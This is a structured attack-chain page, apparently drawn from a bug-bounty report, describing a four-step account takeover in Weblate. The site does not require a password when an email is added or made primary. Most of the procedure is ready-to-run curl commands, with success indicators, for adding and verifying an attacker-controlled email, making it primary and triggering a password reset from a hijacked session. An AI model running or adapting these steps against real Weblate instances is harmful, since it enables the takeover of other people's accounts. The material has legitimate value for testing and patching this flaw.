

---
tags:
  - auth-bypass
  - account-takeover
  - email-change
  - weblate
  - django
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
  - Django
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Add-New-Email-to-Weblate-Account]]'
  - '[[procedures/Verify-New-Email-in-Weblate]]'
  - '[[procedures/Set-New-Email-as-Primary-in-Weblate]]'
  - '[[procedures/Initiate-Password-Reset-via-Controlled-Email]]'
step_count: 4
techniques:
  - '[[Valid Accounts]]'
  - '[[Account Manipulation]]'
updated_at: '2025-12-14T17:32:58.311Z'
description: >-
  Multi-stage attack exploiting Weblate's lack of password requirement for email
  changes, allowing temporary session access to lead to full account takeover.
skill_level: intermediate
impact_level: high
id: a786b0cd-3689-47b2-9634-10de3249229e
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Valid Accounts]]'
  - '[[Account Manipulation]]'
---
# Weblate Account Takeover via Weak Email Change Functionality

Multi-stage attack chain demonstrating a complete attack workflow exploiting a design flaw in Weblate's email management, where adding and changing primary emails does not require the current password. This allows an attacker with temporary access (e.g., session hijacking) to associate a controlled email and reset the account password for full takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer tools or [[tools/curl]]
- Valid session cookie for the target account

### Target Environment

- Weblate platform (Django-based web application)
- Access to /accounts/email/ and /accounts/profile/ endpoints
- Network access to the Weblate instance

### Initial Access Requirements

- Temporary session access to victim's account (e.g., via session hijacking or physical access)
- Attacker's controlled email address
- CSRF token from the session

## Detailed Attack Procedures

### Step 1: Add New Email Address
procedure: [[procedures/Add-New-Email-to-Weblate-Account]]

**Objective**: Associate a controlled email with the victim's account without password authentication.

**Instructions**: Use a POST request to /accounts/email/ with the new email and CSRF token. Execute [[commands/curl-add-weblate-email]]:

```bash
curl -X POST 'https://target.weblate.org/accounts/email/' \
  -H 'Cookie: sessionid=your_session_cookie' \
  -H 'X-CSRFToken: SLhsGgqa4B8Y0DOFLPNQEbu9MyV64vCewoi8mtWTBwc5GSIbxquZBx8lJ6IZyvkf' \
  -d 'csrfmiddlewaretoken=SLhsGgqa4B8Y0DOFLPNQEbu9MyV64vCewoi8mtWTBwc5GSIbxquZBx8lJ6IZyvkf&email=user1%2Bhackerone%40example.com&content='
```

**Expected Output**: Success response indicating email added, with verification email sent.

**Success Indicators**:
- HTTP 200 or redirect to profile
- Verification email received at controlled address

### Step 2: Verify New Email
procedure: [[procedures/Verify-New-Email-in-Weblate]]

**Objective**: Confirm the added email using the verification link to enable it.

**Instructions**: Access the verification link from the email. Execute [[commands/curl-verify-weblate-email]] with the session cookie:

```bash
curl -X GET 'https://target.weblate.org/accounts/complete/email/?verification_code=51554eb9e31b44d6a48f8b41acda9a43&id=uy7kg0n6l8nhmihjvcgwzg3dpama80gn&type=reset' \
  -H 'Cookie: sessionid=your_session_cookie'
```

**Expected Output**: Confirmation page or redirect indicating email verified.

**Success Indicators**:
- Email marked as verified in account profile
- No errors in response

### Step 3: Set New Email as Primary
procedure: [[procedures/Set-New-Email-as-Primary-in-Weblate]]

**Objective**: Change the primary email to the attacker's controlled one without password.

**Instructions**: Submit a POST to /accounts/profile/ setting the new email as primary. Execute [[commands/curl-set-primary-email-weblate]]:

```bash
curl -X POST 'https://target.weblate.org/accounts/profile/' \
  -H 'Cookie: sessionid=your_session_cookie' \
  -H 'X-CSRFToken: your_csrf_token' \
  -d 'email=user1%2Bhackerone%40example.com&username=victim_user&first_name=Victim&activetab=%23account&language=it&secondary_in_zen=on&csrfmiddlewaretoken=your_csrf_token'
```

**Expected Output**: Profile updated successfully, primary email changed.

**Success Indicators**:
- Profile page reflects new primary email
- Old email demoted or secondary

### Step 4: Reset Password Using Controlled Email
procedure: [[procedures/Initiate-Password-Reset-via-Controlled-Email]]

**Objective**: Trigger password reset to the controlled email for full takeover.

**Instructions**: POST to /accounts/reset/ with the new email. Execute [[commands/curl-reset-password-weblate]]:

```bash
curl -X POST 'https://target.weblate.org/accounts/reset/' \
  -H 'X-CSRFToken: your_csrf_token' \
  -d 'csrfmiddlewaretoken=your_csrf_token&email=user1%2Bhackerone%40example.com'
```

**Expected Output**: Password reset email sent to controlled address.

**Success Indicators**:
- Reset link received in attacker's email
- Ability to set new password and access account

## Attack Chain Summary

### Key Achievements

1. Added and verified controlled email without password
2. Switched primary email to attacker-controlled
3. Reset account password via controlled email
4. Achieved full persistent account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]] Valid Accounts
- [[Account Manipulation]] Account Manipulation

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
